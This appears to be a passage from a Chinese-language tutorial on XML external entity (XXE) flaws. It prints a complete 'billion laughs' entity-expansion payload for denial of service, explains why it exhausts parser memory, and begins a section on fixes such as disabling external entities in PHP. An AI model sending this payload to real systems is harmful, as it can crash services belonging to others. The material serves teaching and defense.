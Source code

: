 ## 攻击内网网站

 

该CASE是攻击内网struts2网站，远程执行系统命令。

 

## 拒绝服务攻击

2. To crash the server / Cause denial of service:

 

```xml
 <?xml version="1.0"?>
 <!DOCTYPE lolz [
 <!ENTITY lol "lol">
 <!ENTITY lol2 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
 <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
 <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
 <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
 <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
 <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
 <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
 <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
 ]>
 <lolz>&lol9;</lolz>
```



上面样例代码2中的XXE漏洞攻击就是著名的’billion laughs’ 攻击。

(https://en.wikipedia.org/wiki/Billion_laughs)，该攻击通过创建一项递归的 XML 定义，在内存中生成十亿个”Ha!”字符串，从而导致 DDoS 攻击。

原理为：构造恶意的XML实体文件耗尽可用内存，因为许多XML解析器在解析XML文档时倾向于将它的整个结构保留在内存中，解析非常慢，造成了拒绝服务器攻

击。除了这些，攻击者还可以读取服务器上的敏感数据，还能通过端口扫描，获取后端系统的开放端口。

 # XXE漏洞修复与防御

- xxe漏洞存在是因为XML解析器解析了用户发送的不可信数据。然而，要去校验DTD(document type definition)中SYSTEM标识符定义的数据，并不容易，也

  不大可能。大部分的XML解析器默认对于XXE攻击是脆弱的。因此，最好的解决办法就是配置XML处理器去使用本地静态的DTD，不允许XML中含有任何自己

  声明的DTD。通过设置相应的属性值为false，XML外部实体攻击就能够被阻止。因此，可将外部实体、参数实体和内联DTD 都被设置为false，从而避免基于

  XXE漏洞的攻击。

## 方案一

- 使用开发语言提供的禁用外部实体的方法

- PHP

- - libxml_disable_entity_loader(true);
